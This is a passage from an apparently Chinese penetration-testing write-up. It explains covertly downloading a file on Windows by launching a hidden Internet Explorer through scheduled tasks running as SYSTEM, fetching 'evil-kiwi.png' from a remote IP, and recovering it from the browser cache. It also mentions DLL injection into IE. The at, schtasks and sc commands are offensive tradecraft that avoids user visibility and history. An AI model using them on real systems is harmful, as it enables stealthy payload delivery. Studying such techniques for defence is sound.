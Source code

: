 命令1：

```
at  6:34 "C:\Program Files\Internet Explorer\iexplore.exe" http://192.168.62.131/evil-kiwi.png
```

命令2：

```
schtasks /create /RU SYSTEM /RP "" /SC ONCE /TN test1 /TR "C:\Program Files\Internet Explorer\iexplore.exe http://192.168.62.131/evil-kiwi.png" /ST 06:34 /F  
```

由于计划任务的权限为system，所以用户桌面无法查看启动的IE浏览器界面，缓存位置也不同，通用路径为`%windir%\System32\config\systemprofile\AppData\Local\Microsoft\Windows\`
可使用通配符获得不同系统下缓存文件的路径，命令如下：

```
dir %windir%\*evil-kiwi*.png /s /b
```

所以使用计划任务打开的IE浏览器，不存在历史记录，父进程为svchost.exe

第四种思路：

创建服务启动IE，访问网址，通过缓存获得下载的文件

```
sc create Test1 type= own binpath= "C:\Program Files\Internet Explorer\iexplore.exe"
sc start test1
```

通过这种方式启动的服务，调用的程序需要能够同SCM(Services Control Manager)进行交互，而iexplorer.exe不支持这个功能

可通过其他方式创建服务

**注：**

隐蔽启动IE，访问特定网址，通过缓存获得下载的文件后，需要手动结束IE进程

**e) 隐蔽启动ie，进行DLL注入(APC、Atombombing)**

隐蔽启动IE后，对IE进程进行dll注入，dll实现文件下载的功能

APC注入的代码可参考：

https://github.com/3gstudent/Inject-dll-by-APC

Atombombing可以理解为APC注入的升级版，可参考文章：

[《AtomBombing利用分析》](https://3gstudent.github.io/3gstudent.github.io/AtomBombing%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90)


#### (2) 后台有IE进程

**a) DLL注入(APC、Atombombing)**

方法同上，不再赘述

### 2、被动模式

**a) DLL劫持**

